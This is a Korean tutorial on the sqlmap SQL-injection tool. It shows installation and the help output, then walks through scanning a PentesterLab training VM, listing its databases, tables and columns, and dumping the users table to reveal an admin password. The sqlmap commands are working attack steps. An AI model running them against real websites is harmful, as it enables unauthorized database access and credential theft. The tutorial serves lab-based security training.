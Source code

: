 ```yaml
---
title: "SQLMap 사용법"
tags: [database, sqlmap]
author: eli_ez3r
key: 20191025
modify_date: 2019-10-25
article_header:
  type: cover
  image:
    src:
---
```


## 0x00. 개요

 **[sqlmap]( http://sqlmap.org/ )(automatic SQL injection and database takeover tool)**은 공개 모의침투 도구로 SQL구문삽입(SQL Injection) 취약점을 탐지/진단하고 데이터베이스에 직간접적으로 접근할 수 있는 취약점 분석 도구이다. 

SQL 구문삽입 공격은 DB 구조 파악이 가장 힘든 작업인데, 수작업으로 진행하기에는 매우 많은 시간이 걸린다. `sqlmap`은 DB 구조파악, 테이블 내용 유출 등을 자동화해주기 떄문에 웹취약점에 대한 수동분석 과정에서 상당히 많은 시간을 절약할 수 있게 도와주는 매우 훌륭한 프로그램이다. 

-----



## 0x01. 설치방법

Linux 시스템에서 다음과 같이 간단하게 설치할 수 있다.

```
apt-get install sqlmap -y
```

-----



## 0x02. 사용법

### (1) 도움말

다음 명령어를 통해서 `sqlmap`에 대한 도움말을 볼 수 있다.(보다 자세한 도움말을 보려면 `sqlmap -hh`)

```
sqlmap -h
```

```
root@ubuntu:~# sqlmap -h
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.3.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

Usage: python sqlmap [options]

Options:
  -h, --help            Show basic help message and exit
  -hh                   Show advanced help message and exit
  --version             Show program's version number and exit
  -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH    SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```

-----



## 0x03. 실습

sqlmap 실습을 위해서 [PentesterLab의 From SQL Injection to Shell 훈련장]( https://pentesterlab.com/exercises/from_sqli_to_shell/course )을 대상으로 진행한다.

실제 서버를 공격하여 생기는 책임은 본인에게 있음을 경고합니다..{:.warning} 

 ![Image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114201321.png){:.border.rounded} 

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025114516313.png){:.border.rounded}



### (1) GET 방식 입력 값 점검

다음 명령어를 이용하여 GET방식의 입력값 점검을 할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1"
```

 ![img](http://eliez3r.synology.me/assets/img/study/db/sqlmap/SNAGHTML38e12cd3.PNG) {:.border.rounded}  

OS정보와 Web Application정보, DBMS정보등을 알아오는 것을 알 수 있다.



사전에 DBMS정보를 알고 있는 경우는 다음 명령어를 사용하면 된다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbms=mysql
```



#### 데이터베이스 목록 조회

다음 명령어를 통해 데이터베이스의 목록을 조회할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122018616.png) {:.border.rounded} 



#### 테이블 목록 조회

데이터베이스의 이름을 알아내었으니 해당 데이터베이스의 테이블 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122242193.png){:.border.rounded} 

해당 데이터베이스의 테이블들을 조회한 모습을 볼수 있다.



#### 컬럼 목록 조회

이제 해당 테이블의 컬럼 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122542041.png) {:.border.rounded} 



#### 테이블 내용 덤프

users테이블의 모든 내용들을 덤프해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --dump
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/image-20191025122738312.png) {:.border.rounded} 

user는 `admin` 계정이 존재하고 패스워드는 hash값으로 되어있지만, 해당 해쉬값이 P4ssw0rd 임을 알려준다.

-----



### (2) POST 방식 입력 값 점검

POST방식일 경우 `--data` 옵션을 이용하면된다.

```
sqlmap -u "http://192.168.23.131/admin/index.php" --data "user=USER&password=PASS"
```

